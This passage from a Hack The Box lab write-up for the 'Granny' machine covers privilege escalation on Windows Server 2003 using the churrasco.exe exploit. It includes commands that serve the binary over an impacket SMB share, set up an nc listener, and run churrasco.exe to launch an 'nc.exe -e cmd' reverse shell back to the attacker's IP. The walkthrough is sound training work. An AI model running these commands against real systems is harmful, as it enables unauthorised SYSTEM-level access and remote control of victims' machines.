 <br />
<img src="{{ site.img_path }}/granny_writeup/Granny_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After doing some research on the **Internet** in search of **[Escalate Privileges with JuicyPotato.exe for Windows Serer 2003](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/){:target="_blank"}** I find the resource **[Escalate Privileges with churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/){:target="_blank"}**. So I **[download the binary recommended](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe){:target="_blank"}** in the publication and transfer it to the victim machine, but when I run it it does not work the first time, maybe I'm doing something wrong, but just in case I run it again and this time if I succeed to escalate privileges. If I download the `churrasco.exe` binary directly from **[Github](https://github.com/Re4son/Churrasco/blob/master/churrasco.exe){:target="_blank"}**, I also have problems in the first executions, but after several attempts I succeed in executing commands impersonating the user with maximum privileges. After exploiting the vulnerability, I get a **Reverse Shell** with `nc.exe` and I can now access the two flags to validate in **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** the lab engagement.

> **churrasco** exploit is similar to **juicypotato** exploit. In some scenarios **JuicyPotato** exploit is not compatible with the older systems like **Windows server 2003** or **Windows XP**. It’s a Windows privilege escalation from “service” accounts to “NT AUTHORITY\SYSTEM” account.

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/churrasco.exe .
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.56\smbFolder\churrasco.exe .\churrasco.exe
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
.\churrasco.exe -d "\\10.10.14.56\smbFolder\nc.exe -e cmd 10.10.14.56 443"
# :(
```
